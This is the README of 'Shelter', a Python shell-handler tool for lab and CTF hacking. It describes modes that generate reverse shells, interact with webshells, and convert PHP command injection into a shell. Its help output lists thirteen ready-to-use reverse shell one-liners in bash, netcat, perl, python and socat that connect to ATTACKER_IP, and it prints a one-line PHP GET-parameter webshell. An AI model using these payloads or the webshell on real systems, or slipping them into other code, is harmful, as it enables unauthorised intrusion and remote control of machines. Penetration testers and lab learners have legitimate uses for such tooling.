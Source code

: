# Shelter
***
[![Upload Python Package](https://github.com/Xyan1d3/shelter/actions/workflows/python-publish.yml/badge.svg)](https://github.com/Xyan1d3/shelter/actions/workflows/python-publish.yml)

**Shelter the magical Shell Handler.**
**A tool made for the Hackers by an Hacker.**
![](img/Pasted_image_20210428200307.png)
## What is it ?

Shelter is a new way to catch reverse shell's and also reduces the effort of visiting `pentestmonkey` and `highoncoffee`frequently for reverse shell payloads and changing of the `Attacker-IP` and `Attacker-Port` everytime.

Shelter is made to perform in 4 mode's. The required mode can be easily set by passing the argument of the mode to the script.
- **rev** : Generates and copies reverse shell payload with `IP` and `port` set to clipboard and also starts up a netcat.
- **web** : Webshell interactor for GET parameter command injection in php.
- **webrev** : Convert's a classic GET parameter command injection in php to a reverse shell.
- **host** : Will host post exploitation module's like `pspy`,`linpeas` etc. from the attackbox using `python http.server` or `updog` and copy the web url to the clipboard. 

**This tool is focused towards the solver's of `hackthebox`, `tryhackme` or any other labs with `vpn` connection.**

***
## ✨ Features
### rev Module
- Generate and copy revshell payload with `ATTACKERIP`[default: tun0] and `ATTACKERPORT`. 
- Start's Up a netcat listener on that port for catching the shell.
- Support's `13` language's of reverse shell payload's all tested.
**Only Linux payload's are supported for now.**
- Reduces the hassle of visiting `pentestmonkey` or `highoncoffee` reverse shell cheatsheet for geting reverse shell payloads and changing the `IP` and `PORT` on it everytime.
**This tools is not claiming to be better than pentestmonkey or highoncoffee by any means.**
### web Module
- Reduces the hassle of writting commands in `burpsuite` in time of php parameter command injection and url encoding every time.
- Automatically, URL encodes the command before sending it.

### webrev Module
- Converts a dumb GET parameter command injection to a reverse shell.
- Generates a reverse shell payload with set `ATTACKERIP`[default : tun0] and `ATTACKERPORT` and sends it to webserver url encoded.
- Starts up a netcat listner on the given `ATTACKERPORT` for catching the shell.
### host Module[Coming Soon...]
- It will create a `www` directory with `phpreverseshell`, `powershell reverseshell`, while setting the `ATTACKERIP` and `ATTACKERPORT` and post exploitation tools like `pspy`,`linpeas`,`winpeas` etc. using `updog` or classic `python http.server`.
- It will also copy the url of the file hosted from the server to the clipboard for easy pasting and `wgetting`
***
## Usage
### Rev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev --help
usage: shelter.py rev [-h] {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...

optional arguments:
  -h, --help            show this help message and exit

Available Payloads:
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
    py2                 python -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py                  python3 -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev py --help
usage: shelter.py rev py [-h] [--nohandler] [-i 127.0.0.1] [-p 8888]

optional arguments:
  -h, --help    show this help message and exit
  --nohandler   Copies only the revshell payload. [Does not start handler]
  -i 127.0.0.1  IP for reverse shell.
  -p 8888       PORT for reverse shell.
```

#### Taking a reverse shell from a docker container.
![](img/Pasted_image_20210428201310.png)

### Web Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py web --help
usage: shelter.py web [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL

positional arguments:
  URL           Target URL [http://127.0.0.1/cmd.php]

optional arguments:
  -h, --help    show this help message and exit
  -f F          Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM  GET parameter to send commands.[Default: cmd]
  --ssl         Force HTTPS
  --nossl       Force downgrade to HTTP
```

By default it assume's filename `cmd.php` and GET parameter `cmd` if not specified as an argument.

The php code responsible for getting a simple GET parameter webshell.
```php
root@6a647b5a3d5f:~# cat cmd.php 
<?php system($_GET[cmd]); ?>
```
#### Webshell on a docker container.
![](img/Pasted_image_20210428202006.png)

### Webrev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py webrev --help                                                                                                                                        
usage: shelter.py webrev [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...
                                                                                    
positional arguments:                                                                                                                                                    
  URL                   Target URL [http://127.0.0.1/cmd.php]                       
                                          
optional arguments:                                                                 
  -h, --help            show this help message and exit
  -f F                  Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM          GET parameter to send commands.[Default: cmd]                                                                                                    
  --ssl                 Force HTTPS                                                 
  --nossl               Force downgrade to HTTP
  
Available Payloads:                                                                                                                                                      
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}                                                                               
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash          
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196                                                                     
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done                                                    
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f                                                             
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'                                                              
    py2                 python -c 'import                                                                                                                                
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py                  python3 -c 'import                                          
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in                    
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import                                                                      
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
#### Revshell on a docker container.
![](img/Pasted_image_20210428223306.png)

***
# Disclaimer
Don't use this script for any malicious or illegal purpose's. The Author or any contributor of this repository or tool is not responsible for any of those activities.
